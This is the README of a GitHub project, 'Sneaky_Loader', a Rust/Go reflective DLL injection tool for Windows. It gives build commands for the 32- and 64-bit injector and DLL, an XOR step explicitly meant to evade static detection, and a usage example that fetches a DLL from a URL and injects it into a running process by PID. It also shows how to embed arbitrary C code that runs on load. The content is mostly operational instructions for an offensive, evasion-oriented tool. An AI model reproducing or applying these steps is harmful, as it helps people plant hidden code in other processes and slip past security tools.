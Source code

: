 # Sneaky_Loader
Custom loader - Rust/Go Dll Reflective Injection - Supports 32/54 bits but not ARM for the moment

# How to use it ?

1. Clone the repo
```
git clone <repo>
```

2. x32 - Compile the 32 bits dll
```
cd RustyLoader
rustup target add i686-pc-windows-msvc
cargo build --target=i686-pc-windows-msvc --release
```

2. x64 - Compile the 32 bits dll
```
cd RustyLoader
cargo build --release
```

3. x32 - Copy the compiled dll
```
Copy-Item .\target\i686-pc-windows-msvc\release\rusty_inject.dll -Destination ..\GogoInjector\
```

3. x64 - Copy the compiled dll
```
Copy-Item .\target\release\rusty_inject.dll -Destination ..\GogoInjector\
```

Optional - xor the dll to avoid static detection on memory inspection after the dll download. 

```
inject.go -encode "rusty_inject.dll"
```

A .enc version of the dll is produced. No need to specify to the injector that it is encoded, it will detect it by itself.

4. x32 - Compile the injector
```
cd GogoInjector
go get github.com/Binject/debug/pe
go get golang.org/x/sys/windows
$env:GOARCH="386"
go build .\inject.go
```

4. x64 - Compile the injector
```
cd GogoInjector
go get github.com/Binject/debug/pe
go get golang.org/x/sys/windows
$env:GOARCH="amd64"
go build .\inject.go
```

5. Test it

x32 : 
Spawn a 32 bits process and get its pid :
```
$process = Start-Process -FilePath "C:\Windows\SysWOW64\cmd.exe" -PassThru
$process.Id
```

x64 : 
Spawn a 64 bits process and get its pid :
```
$process = Start-Process -FilePath "C:\Windows\System32\cmd.exe" -PassThru
$process.Id
```

Inject the dll :

Usage :
```
.\inject.exe 
  -local string
        Local file path
  -pid int
        Process ID
  -url string
        URL of the file
```

Example
```
.\inject.exe -pid  21108 -url http://127.0.0.1:8080/rusty_inject.dll
```
![Alt text](/assets/injected2.png)


6. Inject C program : from .c file 

- Add your C code in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- c_code.c
```

- Modify Cargo.toml
```
[dependencies]
ntapi = "0.4.0"
winapi = { version = "0.3", features = ["winuser"] }

[build-dependencies]
cc = "1.0"

[build]
rustc-flags = "-L native=target/release/ -l static:cdll"
```

- Create a build.rs file in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- c_code.c
|-- build.rs
```

Content :
```
fn main() {
    cc::Build::new()
        .file("c_code.c")
        .compile("cdll");
}
```
- Modify lib.rs :

```
extern crate winapi;
extern "C" {
    fn show_message();
}
```

```
if call_reason == DLL_PROCESS_ATTACH {
main_function_from_c_code()
}
```

6. Inject C program : from static library

- Compile c code as object file :
```
gcc -c c_code.c -o c_code.o
```

- Compile as static library  :
```
ar rcs staticlib.lib c_code.o 
```

- Add your static library to libs/ :
```
RustyLoader/
|-- Cargo.toml
|-- libs/
    |-- staticlib.lib
|-- src/
    |-- lib.rs
    |-- loader.rs
```

- Modify Cargo.toml
```
[package]
build = "build.rs"
```

- Create a build.rs file in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- libs/
    |-- staticlib.lib
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- build.rs
```

Content :
```
fn main() {
    // Tell Cargo where to find the static library
    println!("cargo:rustc-link-search=./libs");

    // Tell Cargo to link our static library
    println!("cargo:rustc-link-lib=static=staticlib");
}

```
- Modify lib.rs :

```
extern "C" {
    fn show_message();
}
```

```
if call_reason == DLL_PROCESS_ATTACH {
main_function_from_c_code()
}
```

# How to use the debug version ?

The directory debug_RustyLoader contains a verbose version of the RustyLoader. 
It works in a slightly different way :

	- It is an exe, not a dll. 
	- It operates as an injector and also a loader.
	- It reads the dll named debug_dll.dll in /dll_to_inject .
	- It loads the raw dll in the self process memory and perfoms all the loading operations as RustyLoader would do but with verbose printed logs. Once loaded, it calls dllmain.

Put the dll to be tested in the directory debug_RustyLoader\dll_to_inject and name it debug_dll.dll.
```
cd debug_RustyLoader
cargo run --target=i686-pc-windows-msvc
```
![Alt text](/assets/injected_verbose.png)